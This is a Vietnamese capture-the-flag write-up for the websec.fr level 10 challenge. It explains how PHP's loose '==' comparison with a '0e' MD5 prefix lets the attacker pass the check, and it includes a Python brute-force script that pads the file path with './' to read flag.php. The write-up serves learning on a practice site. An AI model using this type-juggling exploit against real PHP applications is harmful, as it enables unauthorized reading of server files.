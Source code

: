 ## websec.fr-level10

Hi mọi người, đây là bài public writeup đầu tiên của mình :D
Chủ đề của bài viết này chính là challenge level10 của websec.fr

Khi truy cập vào challenge, ta được cung cấp source của file index.php.

```php
<?php
        if (isset ($_REQUEST['f']) && isset ($_REQUEST['hash'])) {
            $file = $_REQUEST['f'];
            $request = $_REQUEST['hash'];

            $hash = substr (md5 ($flag . $file . $flag), 0, 8);

            echo '<div class="row"><br><pre>';
            if ($request == $hash) {
            show_source ($file);
            } else {
            echo 'Permission denied!';
            }
            echo '</pre></div>';
        }
  ?>

```

Đầu tiên biến $hash sẽ được gán bởi giá trị của hàm md5().

Biến $hash và $request được so sánh bởi '==', là 'Loose comparision' nên 2 giá trị sẽ được đưa về cùng một kiểu dữ liệu để so sánh. (các bạn có thể tham khảo tại đây: https://www.php.net/manual/en/language.operators.comparison.php)

Nếu giá trị 0e... được tạo ra bởi hàm md5() và được so sánh với với giá trị 0 được gán cho biến $request thì hàm if sẽ trở thành True. Khi đó ta có thể xem được nội dung của file flag.php thông qua hàm show_source().

Vì cách thức hoạt động của md5 khá phức tạp (các bạn có thể tham khảo tại: https://vi.wikipedia.org/wiki/MD5) nên ý nghĩ đầu tiên là brute-force bằng cách chỉnh sửa các giá trị truyền vào hàm md5() đến khi nào có được giá trị 0e... :D

Ta có liên tục thêm './' vào trước 'flag.php' thông qua param 'f' của biến $_REQUEST['f'] đến khi nào ra được giá trị mong muốn.

Mình sẽ viết script để exploit bằng python

```python
import requests

burp0_url = "https://websec.fr:443/level10/index.php"
burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Not;A=Brand\";v=\"99\", \"Chromium\";v=\"106\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Upgrade-Insecure-Requests": "1", "Origin": "https://websec.fr", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://websec.fr/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9"}
filename = "flag.php"
i = 1
while True:
     burp0_data = {"f":filename, "hash": "0"}
     r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
     if "Permission denied!" not in r.text:
          print(r.text)
          break
     else:
          print("Test: ", i)
     filename = "./"*i + "flag.php"
     i = i + 1
```

Brute-force sẽ hơi mất nhiều thời gian, nhưng chờ đợi là hạnh phúc :DD


Nếu có mình có sai sót gì về kiến thức hay bất kỳ vấn đề gì, xin hãy đóng góp qua mail: dangth2002@gmail.com. 

